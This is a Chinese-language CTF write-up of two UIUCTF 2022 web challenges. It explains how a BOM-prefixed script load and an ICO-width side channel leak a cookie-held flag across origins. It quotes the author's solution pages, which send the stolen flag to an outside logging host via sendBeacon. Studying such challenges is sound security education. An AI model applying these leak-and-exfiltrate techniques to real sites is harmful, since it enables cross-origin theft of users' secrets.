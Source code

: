 ```yaml
---
title: UIUCTF 2022 筆記
catalog: true
date: 2022-08-01 20:31:10
tags: [Security]
categories: [Security]
---
```


<img src="/img/uiuctf-ctf-2022-writeup/cover.png" style="display:none">

其實沒有參加這一次的 CTF，但有稍微看到兩題跟 content type 有關的題目覺得有趣，來記一下解法。

<!-- more -->

## modernism(21 solves)

程式碼超簡單：

``` py
from flask import Flask, Response, request
app = Flask(__name__)

@app.route('/')
def index():
    prefix = bytes.fromhex(request.args.get("p", default="", type=str))
    flag = request.cookies.get("FLAG", default="uiuctf{FAKEFLAG}").encode() #^uiuctf{[A-Za-z]+}$
    return Response(prefix+flag, mimetype="text/plain")
```

會把你送去的資料 hex decode 以後加在 response 的 flag 前面，就這樣。有一個 admin bot 會帶著 flag 在 cookie 去造訪你的頁面。

這題我原本想說 `text/plain` 不能被當作 script 載入，就算沒有加 `X-Content-Type-Options: nosniff` 也一樣，後來發現我記錯了，其實是可以的。

相關程式碼在 [third_party/blink/renderer/platform/loader/allowed_by_nosniff.cc](https://source.chromium.org/chromium/chromium/src/+/refs/tags/106.0.5211.0:third_party/blink/renderer/platform/loader/allowed_by_nosniff.cc;l=79;bpv=0;bpt=1)

``` c
// Helper function to decide what to do with with a given mime type. This takes
// - a mime type
// - inputs that affect the decision (is_same_origin, mime_type_check_mode).
//
// The return value determines whether this mime should be allowed or blocked.
// Additionally, warn returns whether we should log a console warning about
// expected future blocking of this resource. 'counter' determines which
// Use counter should be used to count this. 'is_worker_global_scope' is used
// for choosing 'counter' value.
bool AllowMimeTypeAsScript(const String& mime_type,
                           bool same_origin,
                           AllowedByNosniff::MimeTypeCheck mime_type_check_mode,
                           WebFeature& counter) {
  using MimeTypeCheck = AllowedByNosniff::MimeTypeCheck;

  // If strict mime type checking for workers is enabled, we'll treat all
  // "lax" for worker cases as strict.
  if (mime_type_check_mode == MimeTypeCheck::kLaxForWorker &&
      RuntimeEnabledFeatures::StrictMimeTypesForWorkersEnabled()) {
    mime_type_check_mode = MimeTypeCheck::kStrict;
  }

  // The common case: A proper JavaScript MIME type
  if (MIMETypeRegistry::IsSupportedJavaScriptMIMEType(mime_type))
    return true;

  // Check for certain non-executable MIME types.
  // See:
  // https://fetch.spec.whatwg.org/#should-response-to-request-be-blocked-due-to-mime-type?
  if (mime_type.StartsWithIgnoringASCIICase("image/")) {
    counter = WebFeature::kBlockedSniffingImageToScript;
    return false;
  }
  if (mime_type.StartsWithIgnoringASCIICase("audio/")) {
    counter = WebFeature::kBlockedSniffingAudioToScript;
    return false;
  }
  if (mime_type.StartsWithIgnoringASCIICase("video/")) {
    counter = WebFeature::kBlockedSniffingVideoToScript;
    return false;
  }
  if (mime_type.StartsWithIgnoringASCIICase("text/csv")) {
    counter = WebFeature::kBlockedSniffingCSVToScript;
    return false;
  }

  if (mime_type_check_mode == MimeTypeCheck::kStrict) {
    return false;
  }
  DCHECK(mime_type_check_mode == MimeTypeCheck::kLaxForWorker ||
         mime_type_check_mode == MimeTypeCheck::kLaxForElement);

  // Beyond this point we handle legacy MIME types, where it depends whether
  // we still wish to accept them (or log them using UseCounter, or add a
  // deprecation warning to the console).

  if (EqualIgnoringASCIICase(mime_type, "text/javascript1.6") ||
      EqualIgnoringASCIICase(mime_type, "text/javascript1.7")) {
    // We've been excluding these legacy values from UseCounter stats since
    // before.
    return true;
  }

  if (mime_type.StartsWithIgnoringASCIICase("application/octet-stream")) {
    counter = kApplicationOctetStreamFeatures[same_origin];
  } else if (mime_type.StartsWithIgnoringASCIICase("application/xml")) {
    counter = kApplicationXmlFeatures[same_origin];
  } else if (mime_type.StartsWithIgnoringASCIICase("text/html")) {
    counter = kTextHtmlFeatures[same_origin];
  } else if (mime_type.StartsWithIgnoringASCIICase("text/plain")) {
    counter = kTextPlainFeatures[same_origin];
  } else if (mime_type.StartsWithIgnoringCase("text/xml")) {
    counter = kTextXmlFeatures[same_origin];
  } else if (mime_type.StartsWithIgnoringCase("text/json") ||
             mime_type.StartsWithIgnoringCase("application/json")) {
    counter = kJsonFeatures[same_origin];
  } else {
    counter = kUnknownFeatures[same_origin];
  }

  return true;
}
```

可是就算可以被當作是 script 引入，也沒辦法輕易弄成可以執行的語法，因為 flag 中有 `{}`。

非預期解是利用 class，前面加上 class 就變成 `class uiuctf{fakeflag}`，有了這個之後你只要 `uiuctf+''` 就可以得到當初宣告 class 時的那一整串東西，就拿到 flag 了。

預期解是前面加上 BOM，讓 JS 把整個腳本用 UTF-16 去解讀，就會把原本那一串 flag 變成奇怪的中文字，就不會壞了，前面則可以加上 `++window.`，之後去看 window 的每個屬性就好。

作者的[解法](https://codesandbox.io/s/modernism-sol-05tjvc?file=/index.html:0-1544)如下：

``` html
<!DOCTYPE html>
<html lang="en">
  <head>
    <meta charset="UTF-8" />
    <meta name="viewport" content="width=device-width, initial-scale=1.0" />
    <meta http-equiv="X-UA-Compatible" content="ie=edge" />
    <title>Static Template</title>
  </head>
  <body>
    <!--
      we use a BOM (byte order mark) to change the encoding
      of the document and cause it to be interpreted as valid JS

      BOM = magic unicode character at start of document 
        to indicate encoding and endianness

      chrome supports the UTF16-BE and UTF16-LE BOMs:
      FE FF and FF FE

      we then encode: ++window. as UTF16-BE
      2B2B7769006E0064006F0077002E

      so the JS executed is:
      ++window.RANDOM_UNICODE_CHARACTERS
      
      - luckily, when decoding the flag format as UTF-16 BE, 
        the resultant characters will always be a valid JS identifier
        - this is NOT true in precisionism, due to the space and ! characters in the suffix

      Finally, we iterate through the `window` object,
      and utf16-be encode the added property to get the flag
    -->
    <script src="https://modernism-web.chal.uiuc.tf/?p=FEFF002B002B00770069006E0064006F0077002E"></script>
    <script>
      const encutf16=(s)=>[...s].flatMap(c=>[String.fromCharCode(c.charCodeAt(0)>>8),String.fromCharCode(c.charCodeAt(0)&0xff)]).join('');
      const flag = Object.getOwnPropertyNames(window).map(x=>encutf16(x)).find(x=>x.startsWith('uiuctf{'));
      navigator.sendBeacon("//hc.lc/log2.php?modernism",flag);
    </script>
  </body>
</html>
```


## precisionism(3 solves)

這題跟上題很像，只是結尾多加了一些東西：

``` py
from flask import Flask, Response, request
app = Flask(__name__)

@app.route('/')
def index():
    prefix = bytes.fromhex(request.args.get("p", default="", type=str))
    flag = request.cookies.get("FLAG", default="uiuctf{FAKEFLAG}").encode() #^uiuctf{[0-9A-Za-z]{8}}$
    return Response(prefix+flag+b"Enjoy your flag!", mimetype="text/plain")
```

因為多加的那些東西，所以前面那兩招都不能用。

這題的預期解是把 response 弄成 ICO 格式，然後把要 leak 的部分放到 width 去，就可以 cross origin 拿圖片寬度，一個 byte 一個 byte 拿出來：

作者[解法](https://codesandbox.io/s/precisionism-sol-17tev5?file=/index.html:0-1039)：

``` html
<!DOCTYPE html>
<html lang="en">
  <head>
    <meta charset="UTF-8" />
    <meta name="viewport" content="width=device-width, initial-scale=1.0" />
    <meta http-equiv="X-UA-Compatible" content="ie=edge" />
    <title>Static Template</title>
  </head>
  <body>
    <h1>
      This is a static template, there is no bundler or bundling involved!
    </h1>
    <script>
      const sleep = () => new Promise((res) => setTimeout(res, 50));
      async function exfil(i) {
        let img = new Image();
        let p = "00000100020001010000010020006804000026000000";
        if (i>0) p = p.slice(0, -i*2);
        img.src = `https://precisionism-web.chal.uiuc.tf/?p=${p}`;
        await img.decode();
        return img.width;
      }
      async function main() {
        for (let i = 0; i < 16; i++) {
          let c = await exfil(i);
          console.log(String.fromCharCode(c));
          navigator.sendBeacon("//hc.lc/log2.php?precisionism",String.fromCharCode(c)+" "+c)
        }
      }
      main();
    </script>
  </body>
</html>
```

## 總結

話說我還有特別研究了一下 chromium 怎麼做 mime sniffing，不過這次題目跟這個好像沒太大關係，還是筆記一下位置：https://source.chromium.org/chromium/chromium/src/+/master:net/base/mime_sniffer.cc